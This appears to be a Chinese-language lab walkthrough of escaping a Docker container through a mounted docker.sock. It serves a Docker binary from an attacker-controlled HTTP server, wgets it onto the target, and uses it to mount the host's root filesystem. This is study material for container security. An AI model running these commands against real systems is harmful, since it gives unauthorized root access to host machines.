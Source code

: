 配置不当--Socket逃逸
```shell
启动靶场：docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
进入环境：docker exec -it with_docker_sock /bin/bash
```
![image-20231202152403675](./assets/image-20231202152403675.png)
```shell
检测文件：ls -lah /var/run/docker.sock
全文搜索：find / -type s -name docker.sock 2\>/dev/null
```

/var/run/docker.sock 和 /run/docker.sock 都是同一个 Unix 套接字文件的不同路径。这是因为 /var/run 和 /run 实际上是 Linux 系统中的符号链接，它们指向同一个目录。

![image-20231202152409041](./assets/image-20231202152409041.png)

找到之后，上传docker安装包到目标机器
```shell
python3 -m http.server 80 本地起一个环境\[把docker安装包放在启动目录下\]
```
下载
```shell
wget <http://192.168.86.218/docker-18.09.9.tgz>
```
解压
```shell
tar -xzvf docker-18.09.9.tgz
```
![image-20231202152415360](./assets/image-20231202152415360.png)
```shell
cd docker
chmod +x docker
./docker -H unix:///run/docker.sock images
```
![image-20231202152419008](./assets/image-20231202152419008.png)

这个时候，启动一个本地docker
```shell
./docker -H unix:///var/run/docker.sock run -d -v /:/host alpine tail -f /dev/null
./docker -H unix:///var/run/docker.sock exec IMAGE_ID 命令
./docker -Hunix:///var/run/docker.sock exec fe0f9c6f412c ls /host
```
![image-20231202152422936](./assets/image-20231202152422936.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
